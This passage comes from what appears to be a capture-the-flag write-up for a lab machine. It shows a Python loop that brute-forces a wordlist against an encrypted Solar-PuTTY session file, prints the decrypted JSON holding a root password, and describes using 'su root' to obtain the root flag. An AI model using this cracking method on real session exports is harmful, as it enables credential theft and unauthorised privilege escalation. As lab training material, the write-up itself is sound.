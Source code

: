 ```python
with open(sys.argv[2]) as passwords:
    for i, password in enumerate(passwords):
        password = password.strip()
        decrypted = decrypt(password, cipher)
        print(f'[{i}] {password=}', end='\r')
        if 'Credentials' in decrypted:
            print(f'\r[{i}] {password=} {" " * 10}')
            print()
            print(decrypted)
            break
```
{: .nolineno }
Before running this script you must install requirements:
```
cryptography==41.0.5
pycryptodome==3.21.0
```	
After decrypting, I obtained the root password:
```
{
  "Sessions": [
    {
      "Id": "066894ee-635c-4578-86d0-d36d4838115b",
      "Ip": "10.10.11.37",
      "Port": 22,
      "ConnectionType": 1,
      "SessionName": "Instant",
      "Authentication": 0,
      "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
      "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
      "LastTimeOpen": "0001-01-01T00:00:00",
      "OpenCounter": 1,
      "SerialLine": null,
      "Speed": 0,
      "Color": "#FF176998",
      "TelnetConnectionWaitSeconds": 1,
      "LoggingEnabled": false,
      "RemoteDirectory": ""
    }
  ],
  "Credentials": [
    {
      "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
      "CredentialsName": "instant-root",
      "Username": "root",
      "Password": "12**24nzC!r0c%q12",
      "PrivateKeyPath": "",
      "Passphrase": "",
      "PrivateKeyContent": null
    }
  ],
  "AuthScript": [],
  "Groups": [],
  "Tunnels": [],
  "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}
```
When I obtained the root password, I was able to get the root flag by using `su root` instead of `ssh`